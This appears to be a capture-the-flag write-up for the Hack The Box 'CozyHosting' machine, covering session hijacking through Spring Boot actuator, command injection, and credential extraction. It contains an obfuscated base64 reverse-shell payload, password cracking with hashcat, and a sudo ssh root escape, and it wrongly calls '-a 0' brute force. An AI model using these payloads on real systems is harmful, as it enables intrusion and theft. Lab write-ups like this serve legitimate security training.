### Easy Box


| Name | CozyHosting|
| :------ |:--- |
| OS | Linux |
| RELEASE DATE | September 2, 2023 |
| DIFFICULTY | <span style="color:green">Easy</span> | 1


## Port Scan
This is a test...
Output of my [naabu](https://github.com/projectdiscovery/naabu) scan: 

```sh
naabu -host 10.10.11.230 -p - -rate 5000 -nmap-cli "nmap -sV"       30s   14:09:44  
  
                 __  
 ___  ___  ___ _/ /  __ __  
/ _ \/ _ \/ _ \/ _ \/ // /  
/_//_/\_,_/\_,_/_.__/\_,_/  
  
               projectdiscovery.io  
  
[INF] Current naabu version 2.1.8 (latest)  
[INF] Running CONNECT scan with non root privileges  
[INF] Found 2 ports on host 10.10.11.230 (10.10.11.230)  
10.10.11.230:80  
10.10.11.230:22  
[INF] Running nmap command: nmap -sV -p 22,80 10.10.11.230  
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-27 14:26 MDT  
Nmap scan report for cozyhosting.htb (10.10.11.230)  
Host is up (0.067s latency).  
  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
80/tcp open  http    nginx 1.18.0 (Ubuntu)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 7.62 seconds
```

Looks like port 22 and port 80 are opened. 

## Port 80(HTTP)

You need to add `cozyhosting.htb` to your `/etc/hosts` to be able to see the site.

This is what that web server is serving. Looks like a site for web hosting


#### Directory Enumeration

Running an older tool on it, Dirsearch. I always seem to find interesting things with this tool or what I need usually. 


By seeing the name `actuator` I knew that it had to do with the Spring Boot Framework. Following those paths they had some sensitive data that was redacted, that one that stood out was `/actuator/sessions` as I looked up their [documentation](https://docs.spring.io/spring-boot/docs/current/actuator-api/htmlsingle/#sessions), is indeed active user sessions! We can see then on that site or we can retrieve them by making this get request: 

```shell
curl http://cozyhosting.htb/actuator/sessions\?username=kanderson
```



We got the username from the web service when we go to that same path. I found that using the curl command gave the current active sessions, as they seem to either disconnect for inactivity or it is meant to be switched around. That curl command made sure you got the right one every time.


I knew this would come handy eventually, since they looked like cookies. I found that during the login functionality of the application, that can replace the `Cookies` header with "kanderson" cookies. Make sure you change it on `/login` and `/admin`.




I then turned on Intercept in Repeater and sent over the login request, but this time I used the session cookie from kanderson that we discover under `actuator/sessions` and boom we were logged in as kanderson and he looks like he's an admin of the site.



There was nothing really interesting on this page, other the automatic patching functionality. Which seems to try to connect to other hosts via ssh for patching. 
It took me a while to figure out, but I was able to find that the "Username" field is vulnerable to command injection.
I came to that conclusion after not sending anything on the username field, it returned this 302 which forwarded to a weird error message.



This one was an interesting command injection! I learned about `$IFS` and how you can leverage it as a white [space](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md#bypass-without-space)character. And we know we need spaces because we received an error.



After adding the `$IFS`...



We got a successful command injection! We can now try to get a reverse shell. 

##### Explaining the Reverse Shell

```bash 
;echo$IFS"L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjMvOTAwMSAwPiYx"|base64$IFS-d$IFS|bash;
```

This is your basic base64 encoded reverse shell: `/bin/bash -i >& /dev/tcp/<IP ADDRESS>/<PORT> 0>&1`. What happened is that I couldn't use the "&" in the payload, so I had to encoded.  Make suure you start your netcat listener to catch the shell `nc -lvnp 9001`.

Command explained: 
- Echo as Base64 with your IP address and listening port
- Decoded with the command `base64 -d`
- Last, we piped to bash, to make sure it executes in bash


## User Flag

Once we got that reverse shell, I was running as the user `app`. I couldn't access the /home/josh folder with that user, which I couldn't retrieve the user flag.  I tried LinPeas and found some interesting things but nothing to escalate. Found a postgresql database running.

When we first got that reverse shell, we landed on `/app` which contained a file named `cloudhosting-0.0.1.jar`. A `.jar` file is "is a compressed archive file format used in the Java programming language to package multiple Java class files and associated resources, such as images, audio files, and configuration files, into a single archive."

###### Decompiling JAR file

I noticed we had python3 in that box, so I just setup a simple http server to pull the file.

```bash
python3 -m http.server 8085
```

And then from my machine, we download

```bash
wget http://cozyhosting.htb:8085/cloudhosting-0.0.1.jar
```



I used this online JAVA [decompiler](https://jdec.app/). Nice an easy or you can also use [jd-gui](http://java-decompiler.github.io/)which can be installed in kali or comes by default.

We found credentials for the postgresql database on the file `BOOT-INF/classes/application.properties`



Username:
```bash
postgres
```

Password:
```bash
Vg&nvzAQ7XxR
```

We can now try to login to the database. As you remember there were only 2  open ports(80 and 22), so this command has to be run in our rev shell. 

```bash 
psql -U postgres -W -h localhost -d cozyhosting
```

- `psql`: manages and interacts with PostgreSQL databases.
- `-U`: specifies the db username to connect to the database
- `-W`: prompts the user for the password before connecting to db
- `-h`: specifies the hostname of the PostgreSQL server. In this case, it's connecting to the local machine (localhost).
- `-d `: name of the database (`-d`) to connect to.



- `\list:`displays a list of all existing database names.
- `\d`: Lists the database tables.



Looks like we got a bcrypt hash. 
##### Cracking the Hash

Save the hash to a file and then we will be using `hashcat` and the `rockyou` worldlist to crack this hash and get our password.



```bash
hashcat -a 0 -m 3200 hashAdmin.txt rockyou.txt
```

- `hashcat`: This is the command-line executable for Hashcat, the password cracking tool.
- `-a 0`: This option specifies the attack mode. In this case, `-a 0` indicates a "straight" or "brute-force" attack mode. In a brute-force attack, Hashcat tries all possible combinations of characters to find the correct password.
- `-m 3200`: This option specifies the hash mode. Hashcat supports various hash algorithms, and `-m` is used to specify the mode for the hash algorithm being targeted. In this case, `-m 3200` corresponds to the bcrypt hash algorithm, which is commonly used for storing password hashes securely. Hashcat will attempt to crack bcrypt-hashed passwords.
- `hashAdmin.txt`: This is the name of the file that contains the hashed passwords you want to crack. Hashcat will read these hashes from this file and attempt to find the corresponding plaintext passwords.
- `rockyou.txt`: This is the name of the wordlist file that Hashcat will use for the brute-force attack. Hashcat will try all the passwords in the "rockyou.txt" wordlist to see if any of them match the hashed passwords in "hashAdmin.txt."


I don't have a great GPU, so it took 3 min to crack it. 



Password: 
```bash
manchesterunited
```


This was the Admin password for the postgresql database. The only other user i need to try it on is josh. So, I did and it logged me in as Josh and that is why we don't reuse passwords...




Retrieved the flag on `/home/josh/flag.txt`
## Privilege Escalation 

Looks like Josh is able to execute commands as root for ssh.



This is where [GTFobins](https://gtfobins.github.io/) is my best friend.  A quick search for ssh and we can escalate to root with [ssh](https://gtfobins.github.io/gtfobins/ssh/#sudo)

```bash 
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

- `ssh`: This is the command to initiate an SSH (Secure Shell) session, typically used to connect to remote servers securely.
- `-o ProxyCommand=';sh 0<&2 1>&2'`: This is the custom SSH option (`-o`) that specifies a proxy command to establish the SSH connection. The value of the `ProxyCommand` option is `' ;sh 0<&2 1>&2'`.
- `;`: The semicolon (`;`) is used to separate multiple commands in a single line. In this case, it separates the empty command (`''`) from the subsequent command (`'sh 0<&2 1>&2'`).
- `sh`: This is the command to run a shell, in this case, the Bourne shell (`sh`).
- `0<&2`: This part of the command is used for input redirection. It redirects file descriptor 0 (standard input) to file descriptor 2 (standard error).
- `1>&2`: This part of the command is used for output redirection. It redirects file descriptor 1 (standard output) to file descriptor 2 (standard error).
- `x`: This is the hostname or IP address of the remote server to which you want to establish an SSH connection.



Like ChatGPT said: `*"Unlocking the digital treasure chest, one 'root' at a time!*"
